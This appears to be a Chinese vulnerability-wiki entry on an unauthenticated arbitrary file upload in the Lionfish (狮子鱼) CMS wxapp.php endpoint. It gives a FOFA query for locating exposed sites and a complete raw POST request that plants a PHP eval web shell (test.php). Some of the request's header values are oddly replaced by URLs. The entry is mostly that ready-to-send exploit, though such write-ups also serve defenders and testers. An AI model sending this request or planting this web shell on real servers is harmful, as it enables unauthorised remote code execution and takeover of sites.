 # 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

```
狮子鱼CMS
```

## FOFA

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170927506.png)

发送请求包上传PHP文件

```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST['test']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170927684.png)



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170927948.png)